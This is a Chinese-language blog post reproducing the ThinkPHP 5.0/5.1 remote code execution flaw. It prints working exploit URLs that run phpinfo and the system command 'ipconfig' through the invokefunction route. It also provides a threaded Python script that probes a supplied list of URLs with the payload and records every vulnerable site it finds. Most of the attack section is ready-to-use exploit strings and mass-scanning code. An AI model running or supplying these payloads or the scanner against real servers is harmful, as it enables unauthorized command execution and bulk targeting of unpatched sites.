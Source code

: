 ```yaml
---
layout: post
title: "ThinkPHP V5.1命令执行漏洞复现"
subtitle: "ThinkPHP V5.1命令执行漏洞复现"
date: 2019-01-13
author: ppbibo
category: security
finished: true
---
```

[TOC]

## 前言：

ThinkPHP官方2018年12月9日发布重要的[安全更新](https://blog.thinkphp.cn/869075)，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

## 影响范围：

 5.x < 5.1.31, <= 5.0.23

## 测试环境：

ThinkPHP V5.1.1

Apache/2.4.37 (Win32) OpenSSL/1.1.1

PHP version 7.2.12

## 复现：

```
访问:	http://10.211.55.7/tp5.1/public/index.php
```

![img](/static/img/-1.png) 

```
输入：http://10.211.55.7/tp5.1/public/index.php?s=index/think\container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

![img](/static/img/-0.5.png) 

```
访问：http://10.211.55.7/tp5.1/public/index.php?s=index/think\container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ipconfig
```

![img](/static/img/-0.png) 

## 编写批量扫描脚本

```
# coding:utf-8

import threading
import time
import requests
import os


def scan(urls):

    """Python 3.x"""

    """ 批量检测是否存在Think PHP 5.1 命令执行漏洞 """

    if urls[-1] != '/':

        urls += '/'

    headers = {'user-aget': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36'}

    payload = "/index.php?s=index/think\container/invokefunction&function=call_user_func_array&vars[0]=var_dump&vars[1][]=testpage"

    url = urls + payload

    try:

        req = requests.get(url=url,headers=headers,timeout=10)

        if "testpage" in req.text:

            print("[+] Ture url:{}".format(urls))

            print("{}".format(urls),file=open('save.txt','a'))

        else:

            print("[-] False url:{}".format(urls))

    except:

        pass

if __name__ == '__main__':

    while True:

        text = input('url.txt:')

        if os.path.exists(text):
            print('[+]{} existence'.format(text))
            break

        else:
            print('[-]{} not existence'.format(text))
            continue

    with open("{}".format(text), 'r') as e:

        for r in e.readlines():

            qc = "".join(r.split('\n'))

            # print(qc)

            t = threading.Thread(target=scan, args=(qc,))
            t.start()

            time.sleep(0.5)
```